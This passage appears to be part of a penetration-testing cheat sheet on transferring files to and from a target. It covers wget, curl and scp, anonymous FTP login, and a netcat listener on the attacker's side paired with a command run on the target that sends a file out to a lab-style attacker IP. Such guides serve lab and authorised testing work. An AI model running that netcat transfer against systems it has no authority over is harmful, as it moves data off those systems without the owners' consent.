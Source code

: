 ## BASH (command line tools)

```bash
wget <path to file> -O <filename>
curl <path to file> --output <filename>

# Copy a file from a target to our host
scp user@host:/path/to/file /path/to/destination

# Copy a file from our host to a target
scp /path/to/file user@host:/path/to/destination

# Copy a whole directory from our host to a target
scp -r /path/to/directory user@host:/path/to/destination

```

We can use a netcat listener and STDOUT to write raw input to files:

```bash
# setup a listener where "someFile" is the file you want to write
# this will sit and wait for the connection, so set it up first
nc -lvnp 1337 > someFile

# On the target
nc 10.10.14.4 1337 < someFile
```

You'll have no real way to tell when the transfer is done using the above `nc` method, so don't hit Ctrl-C until you're sure that everything copied across, and be sure to check the file size and run `file` and/or `sha256sum` to verify the integrity of the file (it can get trashed using this method)

## FTP

### Connect

```bash
ftp domain.com
ftp 192.168.0.1
ftp user@ftpdomain.com
```

### Log in

```bash
Name: anonymous
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
```

### Move around
